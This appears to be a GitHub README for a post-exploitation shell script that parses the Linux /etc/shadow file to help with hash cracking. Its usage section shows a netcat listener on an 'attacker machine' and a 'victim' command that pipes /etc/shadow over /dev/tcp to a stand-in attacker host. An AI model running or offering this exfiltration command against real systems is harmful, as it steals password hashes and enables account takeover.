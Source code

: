 # etcshash

> A shell script to parse the /etc/shadow file and automatically display the relevant information

This script aims to make post exploitation easier by parsing the `/etc/shadow` file and outputting the information in a concise way that makes steps like hash cracking easier

## Usage

Currently, the script only supports reading from stdin:
```sh
cat /etc/shadow | ./etcsha.sh
```
or output every field of the `/etc/shadow` file with the `-a` flag
```sh
cat /etc/shadow | ./etcsha.sh -a
```

as it reads from stdin it can also receive files sent e.g. from netcat:
```sh
# attacker machine:
nc -lvnp 1234 | ./etcsha.sh

# victim:
cat /etc/shadow > /dev/tcp/$ATTACKER/1234
```